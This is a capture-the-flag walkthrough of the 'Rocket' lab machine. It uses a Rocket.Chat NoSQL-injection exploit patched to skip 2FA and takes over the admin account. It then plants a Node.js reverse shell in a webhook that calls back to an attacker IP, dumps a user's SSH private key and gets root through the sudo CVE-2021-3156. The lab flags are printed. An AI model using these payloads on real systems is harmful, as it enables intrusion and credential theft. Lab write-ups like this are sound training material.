 # Rocket

```
# nmap -sCV -p- rocket.htb
Nmap scan report for rocket.htb (10.129.172.140)
Host is up (0.15s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Rocket Hosting
3000/tcp open  ppp?
```
On port 3000 we can see a Rocket Chat login portal.

As well described in [SonarSource blog](https://blog.sonarsource.com/nosql-injections-in-rocket-chat), Rocket Chat is vulnerable to a NoSQL injection. By resetting the password of a normal user, then a admin account it is possible to execute arbitrary commands through the administration interface.
The exploit can be found [here](https://www.exploit-db.com/exploits/49960).

This exploit needs a low priv user email and an admin email. Those emails can be found on the website port 80.

![Users email addresses](../img/email.png "Users email addresses")

Here we will use `emmap@rocket.htb` (low priv user) and `ezekiel@rocket.htb` (admin user). In the current case the exploit needs to be modified to remove 2FA. We applied the following patch:

```python
def changingadminpassword(url,token,code):
	#payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",\\"params\\":[\\"'+token+'\\",\\"P@$$w0rd!1234\\",{\\"twoFactorCode\\":\\"'+code+'\\",\\"twoFactorMethod\\":\\"totp\\"}]}"}'
	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",\\"params\\":[\\"'+token+'\\",\\"P@$$w0rd!1234\\",{\\"twoFactorCode\\":\\"\\",\\"twoFactorMethod\\":\\"totp\\"}]}"}'
[...]
def twofactor(url,email):
  [...]
  #return code
	return ""
```

```
$ python3 sploit.py -u emmap@rocket.htb -a ezekiel@rocket.htb -t http://rocket.htb:3000/
[+] Resetting emmap@rocket.htb password
[+] Password Reset Email Sent
Got: _
Got: _r
Got: _rn
Got: _rnZ
Got: _rnZc
Got: _rnZcF
Got: _rnZcF4
Got: _rnZcF4a
Got: _rnZcF4a2
Got: _rnZcF4a2J
Got: _rnZcF4a2JR
[...]
Got: _rnZcF4a2JRRP7xY_AGDxMjEOuKxKL-9XvYtAVHmhkO
[+] Got token : _rnZcF4a2JRRP7xY_AGDxMjEOuKxKL-9XvYtAVHmhkO
[+] Password was changed !
[+] Succesfully authenticated as emmap@rocket.htb
Got the code for 2fa: ices.totp is undefined :\n@:1:56\n@:1:49\n"}
[+] Resetting ezekiel@rocket.htb password
[+] Password Reset Email Sent
Got: n
Got: nO
Got: nOi
Got: nOi2
[...]
[+] Got token : nOi2zKQPCeLk-AJn3ApDl5JtzOtfnBn-SONT6oihZC0
[+] Admin password changed !
```

Once admin password changed we can login with username `admin` and password `P@$$w0rd!1234`.

We can add the following reverse shell on the `administration interface / integrations / web hook`:
```js
const require = console.log.constructor('return process.mainModule.require')();
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(80, "10.10.14.27", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

![RCE with the web hook](../img/rce_admin.png "RCE with the web hook")

When hitting the Webhook URL(see screen above) the revshell is connecting back to us:

```
$ nc -nvlp 80
Listening on [0.0.0.0] (family 2, port 80)
Connection from 10.129.1.7 50358 received!
id
uid=1000(ezekiel) gid=1000(ezekiel) groups=1000(ezekiel)
```
We can grab ezekiel rsa key to get an fully operational shell:
```
cat /home/ezekiel/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsEzrkmU/V0/a5EzaBR58XHHtnI7azu003705Pz+2Z+Q3fD9G+K/g
[...]
```

Once connected to ezekiel we can get user flag. We also noticed the sudo version is vulnerable to CVE-2021-3156.
The exploit we used can be found [here](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot).
```
ssh ezekiel@rocket.htb -i ezekiel_id_rsa

ezekiel@rocket:~$ cat user.txt 
HTB{th3_p4ssw0rd_r3s3t_api_1s_n0t_r0ck_s0l1d}

ezekiel@rocket:/tmp$ sudo -V
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
ezekiel@rocket:/tmp$ make
gcc exploit.c -o exploit
exploit.c: In function ‘main’:
exploit.c:75:5: warning: implicit declaration of function ‘execve’ [-Wimplicit-function-declaration]
   75 |     execve(argv[0], argv, env);
      |     ^~~~~~
mkdir libnss_X
gcc -g -fPIC -shared sice.c -o libnss_X/X.so.2
ezekiel@rocket:/tmp$ ./exploit
uid=0(root) gid=1000(ezekiel) groups=1000(ezekiel)
root@rocket:/tmp#
root@rocket:/tmp# cat /root/root.txt
HTB{4lw4ys_upgr4d3_y0ur_syst3ms}
```